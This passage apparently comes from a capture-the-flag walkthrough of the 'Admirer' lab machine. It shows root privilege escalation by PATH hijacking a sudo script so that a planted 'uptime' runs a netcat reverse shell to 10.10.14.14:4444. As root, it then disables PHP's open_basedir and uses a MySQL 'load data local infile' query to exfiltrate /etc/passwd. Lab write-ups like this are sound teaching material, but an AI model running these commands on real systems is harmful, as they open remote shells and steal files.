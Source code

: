 	nc 10.10.14.14 4444 -e /bin/bash
	```
3. Make it executable
	```
	waldo@admirer:/tmp$ chmod +x uptime
	```
4.  Execute `admin_task.sh` as `root` and set path to invoke reverse shell
	```
	sudo PATH=/tmp:$PATH /opt/scripts/admin_tasks.sh
	```
5. Demo - Regular Path Hijacking w/ `SETENV`
	![](5XZw0FeGlk.gif)

## Configure PHP so that Adminer is able to load any file
1. Earlier, we are restricted by `open_basedir` setting, it restricted us to only exfiltrating files in `/var/www/html`
2. Remove `/var/www/html` from `open_basedir` setting so that we are able to exfiltrate any file
	```
	root@admirer:/var/www/html/utility-scripts# nano /etc/php/7.0/apache2/php.ini
	...
	; open_basedir, if set, limits all file operations to the defined directory
	; and below.  This directive makes most sense if used in a per-directory
	; or per-virtualhost web server configuration file.
	; http://php.net/open-basedir
	open_basedir =
	...
	```
3. Restart `apache2`
	```
	root@admirer:/var/www/html/utility-scripts# service apache2 restart
	Restarting Apache httpd web server: apache2.
	```
4. Exfiltrate `/etc/passwd`
	```
	# MySQL Query
	load data local infile '/etc/passwd' into table mysql.exploit fields terminated by "\n"
	```
	![]({{ page.img_path }}Pasted%20image%2020220928155803.png)
5. View exfiltrated file `/etc/passwd`
	![]({{ page.img_path }}Pasted%20image%2020220928155741.png)
	![]({{ page.img_path }}Pasted%20image%2020220928161156.png)